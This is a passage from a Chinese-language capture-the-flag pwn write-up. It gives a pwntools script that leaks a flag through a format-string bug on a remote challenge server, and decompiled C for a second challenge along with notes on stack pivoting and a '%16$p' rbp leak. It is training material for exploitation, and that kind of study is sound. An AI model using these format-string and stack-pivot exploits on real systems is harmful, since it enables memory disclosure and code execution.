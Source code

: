 ```bash

# p = process('./fmt')
p = remote('node5.anna.nssctf.cn', 28209)

# get flag
flag_addr = 12
flag = ''
while True:
    p.sendlineafter(b'Echo as a service', '%{}$p'.format(flag_addr))
    p.recvuntil(b'0x')
    part = p.recvuntil(b'\n')[:-1]
    for i in range(0, len(part), 2):
        index = len(part) - i
        flag += chr(int(part[index - 2:index].ljust(2, b'0'), 16))
    print(flag)
    if '}' in flag:
        break
    flag_addr += 1


```


# hdctf 

>栈迁移 


[参考](https://www.uf4te.cn/posts/6f874503.html#%E6%80%9D%E8%B7%AF%E4%BA%8C-%E6%A0%88%E8%BF%81%E7%A7%BB)
```c
__int64 vuln()
{
  char s[80]; // [rsp+0h] [rbp-50h] BYREF

  memset(s, 0, sizeof(s));
  puts("please show me your name: ");
  read(0, s, 0x48uLL);
  printf("hello,");
  printf(s);
  puts("keep on !");
  read(0, s, 0x60uLL);
  return 0LL;
}
```
这是主要函数，有格式化漏洞，已有栈溢出，但是栈溢出的位置有限，只能溢出到返回值的位置，这样构造的ROP链不能完全写入到栈上，需要进行栈迁移
，栈迁移必需得到旧的rbp，
![alt text](image-13.png)
泄露出旧的rbp偏移在16，就可以得到旧的rbp地址
```python
io.send(b'%16$p')
```